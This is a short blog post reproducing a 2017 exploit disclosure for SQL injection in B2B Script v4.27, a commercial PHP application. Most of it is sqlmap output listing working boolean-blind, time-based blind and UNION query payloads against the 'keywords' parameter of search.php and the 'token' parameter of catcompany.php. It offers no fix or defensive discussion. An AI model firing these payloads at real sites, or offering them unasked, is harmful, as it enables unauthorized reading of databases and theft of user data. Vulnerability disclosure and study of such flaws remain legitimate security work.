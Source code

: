 <BR>---
<BR>layout: post
<BR>title: B2B Script v4.27 - SQL Injection - 18.01.2017
<BR>---
<BR>
<BR>An attacker can exploit this vulnerability to read from the database. The parameters 'keywords' and 'token' are vulnerable.
<BR>
<BR>
<BR># Vulnerability: B2B Script v4.27 - SQL Injection
<BR># Date: 18.01.2017
<BR># Software link: http://itechscripts.com/b2b-script/
<BR># Demo: http://b2b.itechscripts.com
<BR># Price: 199$
<BR># Category: webapps
<BR># Exploit Author: Dawid Morawski
<BR># Website: http://www.morawskiweb.pl
<BR># Contact: dawidmorawski1990@gmail.com
<BR>#######################################
<BR>
<BR>1. Description
<BR>An attacker can exploit this vulnerability to read from the database.
<BR>
<BR>2. SQL Injection / Proof of Concept:
<BR>
<BR>http://localhost/[PATH]/search.php?keywords=[SQL]
<BR>SQLmap outout:
<BR>
<BR>Parameter: keywords (GET)
 <BR>   Type: boolean-based blind
    <BR>Title: OR boolean-based blind - WHERE or HAVING clause (MySQL comment)
   <BR> Payload: keywords=-7908') OR 3641=3641#
<BR>
    <BR>Type: UNION query
    <BR>Title: MySQL UNION query (NULL) - 2 columns
    <BR>Payload: keywords=Products') UNION ALL SELECT <BR>NULL,CONCAT(0x716b7a7871,0x68634473486965586e6b57754358736b487a43564c6963646e556549454e476177776a5a6a7a4c4c,0x71767a7a71)#
<BR>---
<BR>[INFO] testing MySQL
 <BR>[INFO] confirming MySQL
 <BR>[INFO] the back-end DBMS is MySQL
<BR><
BR>#########################################
<BR>
<BR>
<BR>http://localhost/[PATH]/catcompany.php?token=[SQL]
<br>SQLmap outout:
<br>
<br>Parameter: token (GET)
    <br>Type: boolean-based blind
    <br>Title: AND boolean-based blind - WHERE or HAVING clause
  <br>  Payload: token=7532a5bfc9e07964f8dddeb95fc584cd965d' AND 9125=9125 AND 'HhOm'='HhOm
<br>
  <br>  Type: AND/OR time-based blind
  <br>  Title: MySQL >= 5.0.12 AND time-based blind
  <br>  Payload: token=7532a5bfc9e07964f8dddeb95fc584cd965d' AND SLEEP(5) AND 'dWKJ'='dWKJ
<br>
  <br>  Type: UNION query
  <br>  Title: Generic UNION query (NULL) - 6 columns
  <br>  Payload: token=-7417' UNION ALL SELECT <br>NULL,CONCAT(0x7171707071,0x6a6c6d484f58726e48446167417a66756464445941464844416856527a634a704f4b79647a494654,0x716b786271),NUL<br>L,NULL,NULL,NULL-- aNXq


